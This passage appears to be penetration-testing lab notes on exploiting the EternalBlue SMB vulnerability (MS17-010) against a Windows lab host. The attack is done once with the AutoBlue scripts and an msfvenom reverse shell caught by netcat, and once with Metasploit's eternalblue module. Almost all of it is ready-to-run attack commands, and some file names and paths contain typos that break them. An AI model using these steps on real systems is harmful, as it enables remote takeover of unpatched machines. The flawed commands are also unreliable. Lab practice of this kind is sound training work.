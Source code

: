 #### Lab

**First method (AutoBlue)**

The tools is **AutoBlue-MS17-010** from https://github.com/3ndG4me/AutoBlue-MS17-010.

```bash
john@attack> nmap -sV -p 445 --script=smb-vuln-ms17-010 10.10.10.12
```

```bash
john@attack> git clone https://github.com/3ndG4me/AutoBlue-MS17-010
john@attack> cd AutoBlue-MS17-010
john@attack> pip install -r requirements.txt
john@attack> cd shellcode
john@attack> chmod +x shell.prep.sh
john@attack> ./shell_prep.sh

# auto generate a reverse shell with msfvenom : y
# LHOST for reverse connection                : 10.10.10.10
# LPORT you want x64 to listen on             : 1234
# LPORT you want x86 to listen on             : 1234
# generate a meterpreter/regular shell        : 1
# generate a staged/stageless payload         : 1
```

Shellcodes generated : `sc_x64.bin` `sc_x86.bin`

```bash
# TAB 0
john@attack> nc -lnvp 1234
```

```bash
# TAB 1
john@attack> chmod +x eternalblue_exploit7.py
john@attack> python eternalblue_exploit7.py 10.10.10.12 shellchode/sc_x64.bin
```

```bash
# TAB 0
C:\Windows\system32> whoami
```

**Second method (MSF)**

```bash
john@attack> msfconsole

msf6> use exploit/windows/smb/ms17-010-eternalblue
msf6> set rhosts 10.10.10.12
msf6> run

meterpreter> getuid
```

### Exploiting RDP
